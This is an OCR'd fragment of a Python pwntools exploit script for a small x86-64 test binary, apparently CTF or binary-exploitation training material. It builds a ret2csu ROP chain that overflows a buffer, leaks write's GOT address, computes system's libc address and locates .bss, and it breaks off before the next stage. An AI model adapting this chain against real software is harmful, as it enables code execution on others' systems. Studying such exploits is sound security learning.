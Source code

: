 ```
print("\[+\] pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret = 0x%x" % pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret)
rdx\_rsi\_rdi\_callr12\_ret = 0x400600
print("\[+\] rdx\_rsi\_rdi\_callr12\_ret = 0x%x" %  rdx\_rsi\_rdi\_callr12\_ret)

"""
0000000000601018 R\_X86\_64\_JUMP\_SLOT  write@GLIBC\_2.2.5
0000000000601020 R\_X86\_64\_JUMP\_SLOT  read@GLIBC\_2.2.5
"""
got\_write =0x0000000000601018
print("\[+\] got\_write = 0x%x" % got\_write)

got\_write2=linux\_x64\_test3\_elf.got\["write"\]
print("\[+\] got\_write2 = 0x%x" %  got\_write2)

got\_read = 0x0000000000601020
got\_read2=linux\_x64\_test3\_elf.got\["read"\]

"""
0000000000400587 <main>:
  400587:    55                       push   %rbp
"""
main\_static = 0x0000000000400587

# call got\_write(rdi=1,rsi=got\_write, rdx=8)
# rdi=r15d=param1  rsi=r14=param2 rdx=r13=param3  r12=call\_address
payload1 ="A"\*136 + p64(pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret) # ret address  : p64(pop\_rbx\_rbp\_r12\_r13\_r14\_r15\_ret)
payload1 += p64(0)+ p64(1)                               # rbx=0 rbp=1  : p64(0)+ p64(1)
payload1 += p64(got\_write)                               # call\_address : got\_write
payload1 += p64(8)                                       # param3       : 8
payload1 += p64(got\_write)                               # param2       : got\_write
payload1 += p64(1)                                       # param1       : 1

payload1 += p64(rdx\_rsi\_rdi\_callr12\_ret)                 # call r12
payload1 += p64(0)\*7                                     # add    $0x8,%rsp # 6 pop
payload1 += p64(main\_static)                             # return main

p.recvuntil('Hello, World\\n')

print("\[+\] send payload1 call got\_write(rdi=1,rsi=got\_write, rdx=8)")
p.send(payload1)
sleep(1)

write\_addr = u64(p.recv(8))
print("\[+\] write\_addr = 0x%x" % write\_addr)

write\_static = libc\_elf.symbols\['write'\]
system\_static = libc\_elf.symbols\['system'\]

system\_addr = write\_addr - (write\_static - system\_static)
print("\[+\] system\_addr = 0x%x" % system\_addr)

"""
  \[26\] .bss              NOBITS           0000000000601040  00001040
       0000000000000008  0000000000000000  WA       0     0     1
"""
bss\_addr = 0x0000000000601040
bss\_addr2 = linux\_x64\_test3\_elf.bss()
print("\[+\] bss\_addr  = 0x%x" % bss\_addr)
print("\[+\] bss\_addr2 = 0x%x" % bss\_addr2)

# call got\_read(rdi=0,rsi=bss\_addr, rdx=16)
```